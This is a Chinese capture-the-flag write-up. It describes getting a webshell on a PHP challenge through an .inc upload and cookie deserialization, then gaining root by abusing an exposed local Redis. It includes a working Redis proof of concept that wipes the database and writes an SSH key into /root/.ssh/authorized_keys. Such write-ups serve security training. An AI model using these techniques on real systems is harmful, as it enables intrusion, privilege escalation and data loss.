 ![](http://static.wooyun.org//drops/20151118/20151118130014520586.jpg)

## getshell

首先通读源码，发现有几个特点：

>   1. 可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值

>   2. 数据存储于cookie中，通过php反序列化函数还原并显示

其实考察点比较有意思。  
看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。  
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。  
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell：

1.上传webshell，后缀为.inc，被重命名为xxxx.inc

![](http://static.wooyun.org//drops/20151118/20151118130017213927.jpg)

2.序列化一个类名为xxxx的类对象

![](http://static.wooyun.org//drops/20151118/20151118130019932888.jpg)

3.将序列化以后的字符串作为cookie，发送到服务器上

![](http://static.wooyun.org//drops/20151118/20151118130021635989.jpg)

4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功

![](http://static.wooyun.org//drops/20151118/2015111813002779271101.jpg)

在网站根目录的flag-1.php中获得第一个flag。

## 利用本地redis提权

拿到webshell以后，查看一下服务器的一些敏感信息。  
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码：

![](http://static.wooyun.org//drops/20151118/201511181300292817111.jpg)

于是可以利用这段时间比较火的redis写公钥文件进行提权。  
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC：

    
    
    #!php
    <?php 
    $redis = new Redis(); 
    $redis->connect('127.0.0.1', 21821); 
    $redis->auth("Tat141uIyX8NKU"); 
    $redis->flushall(); 
    $redis->config("SET", "dir", "/root/.ssh/"); 
    $redis->config("SET", "dbfilename", "authorized_keys"); 
    $redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
    $redis->save();
    